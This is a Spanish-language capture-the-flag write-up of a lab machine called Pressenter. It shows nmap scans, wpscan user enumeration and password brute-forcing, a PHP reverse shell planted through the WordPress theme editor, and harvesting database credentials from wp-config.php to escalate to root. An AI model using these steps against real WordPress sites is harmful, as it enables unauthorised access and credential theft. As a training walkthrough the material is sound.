

Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -Pn -n 172.17.0.2
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p80 172.17.0.2
Host is up (0.00018s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Pressenter CTF
MAC Address: 02:42:AC:11:00:02 (Unknown)
Si accedemos a la web vemos lo siguiente:
Debajo de todo vemos Find us at pressenter.hl. Como no lo conocemos lo agregamos al /etc/hosts y si accedemos, vemos este otro sitio:
Estamos ante un wordpress.
Vamos a ejecutar wp-scan.
wpscan --url http://pressenter.hl --enumerate vp,u
No nos encuentra plugins, pero nos encuentra dos usuarios: pressi y hacker.
Intrusión
Como el XML-RPC está habilitado, vamos a realizar fuerza bruta para intentar dar con la contraseña de alguno de los dos:
wpscan --url http://pressenter.hl -U 'pressi' -P /usr/share/wordlists/rockyou.txt
wpscan --url http://pressenter.hl -U 'hacker' -P /usr/share/wordlists/rockyou.txt
Damos con la contraseña del usuario pressi. Es dumbass:
Nos logueamos a http://pressenter.hl/wp-admin/ y estamos dentro:
Vamos a Herramientas -> Editor de archivos de temas. Inicialmente intentamos modificar el thema en uso que es Twenty Twenty-Four, modificando algúno de los archivos que se encuentran dentro de patterns ya que están escritos en php, pero obtenemos el mensaje de error:
No ha sido posible comunicar con el sitio para comprobar los errores fatales, así que el cambio de PHP se ha revertido. Tendrás que subir el cambio a tu archivo PHP por otros medios, como por ejemplo usando SFTP.
Por lo tanto, seleccionamos el thema Twenty Twenty-Two que también está instalado e intentamos modificar el index.php. Tenemos éxito, por lo que vamos a pegar el script de Pentest Monkey para obtener una Reverse Shell:
Luego, nos quedamos a la escucha con netcat y accedemos a
http://pressenter.hl/wp-content/themes/twentytwentytwo/index.php
Obtenemos la sesión:
Realizamos un tratamiento de la TTY.
Escalacion de privilegios
www-data to enter
Dentro del archivo /var/www/pressenter/wp-config.php vemos los datos de la conexión a la BD:
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'admin' );
define( 'DB_PASSWORD', 'rooteable' );
define( 'DB_HOST', '127.0.0.1' );
Nos conectamos:
mysql -u admin -D wordpress -p
Si consultamos la tabla wp_usernames vemos la contraseña del usuario enter: kernellinuxhack:
Desde acá vemos una flag:
enter to root
Si ejecutamos sudo -l vemos lo siguiente:
Si intento leer el archivo /root/root.txt obtengo lo siguiente:
Intento reutilizar la contraseña encontrada para el usuario enter y puedo conectar! Vemos la segunda flag: